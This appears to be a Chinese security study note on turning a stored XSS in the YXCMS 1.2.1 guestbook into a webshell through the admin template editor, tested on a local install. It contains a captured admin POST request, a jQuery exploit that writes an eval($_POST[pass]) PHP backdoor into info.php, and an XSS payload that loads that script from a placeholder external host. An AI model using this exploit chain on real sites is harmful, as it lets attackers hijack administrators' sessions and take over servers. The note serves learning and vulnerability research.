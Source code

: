 # [XSS利用姿势]XSS利用模板编辑getshell

time：2021-5-17

---

> 该知识点来源于P牛的yxcms审计文章，因第一次见这种姿势，随记录学习。

测试平台为本地搭建的YXCMS1.2.1

XSS漏洞利用点为首页的留言本

### 0x01 后台的模板编辑功能

YXcms后台可以直接编辑前台模板，这次测试编辑info.php

![image-20210517170739300](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210517170739300.png)

点击保存同时bp抓包，从请求包中可以得到很多信息：

```
POST /YXcms1.2.1/index.php?r=admin/set/tpedit&Mname=default&fname=info.php HTTP/1.1
Host: localhost
Content-Length: 168
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost/YXcms1.2.1/index.php?r=admin/set/tpedit&Mname=default&fname=info.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=joe5plgefnco7rg99r4ta0vhg6
Connection: close

code=%3C%3Fphp+return+array+%28+%27name%27+%3D%3E+%27%E6%9C%80%E6%96%B0%E9%BB%98%E8%AE%A4%E6%A8%A1%E6%9D%BF2013-2-1%27%2C+%27author%27+%3D%3E+%27yx%27%2C%29%3B+%3F%3E++
```

发现点击保存后实际请求为POST请求，且url为：

```
/index.php?r=admin/set/tpedit&Mname=default&fname=info.php
```

请求体中code参数值就是编辑文本框中的内容：

```
code=%3C%3Fphp+return+array+%28+%27name%27+%3D%3E+%27%E6%9C%80%E6%96%B0%E9%BB%98%E8%AE%A4%E6%A8%A1%E6%9D%BF2013-2-1%27%2C+%27author%27+%3D%3E+%27yx%27%2C%29%3B+%3F%3E++
```

### 0x02 构造EXP

之后就可以利用XSS来请求一个**我们精心构造的，且会对上述url进行携带post数据的请求的js脚本**。

P牛的EXP：

```js
$(document).ready(function(){
var code = "<?php eval($_POST[pass]); ?><?php return array ( 'name' => '最新默认模板2013-2-1', 'author' => 'yx',); ?> ";
$.post("/tmp/index.php?r=admin/set/tpedit&Mname=default&fname=info.php", {"code": code},function(data){});
});
```

### 0x03 利用

将其放在服务器上，利用XSS payload进行留言：

```js
<script src=http://xxxx/exp.js></script>
```

最终的效果就是：管理员审核留言时触发XSS自动执行上述js脚本，即自动进行了模板编辑保存行为，写入了一句话木马。

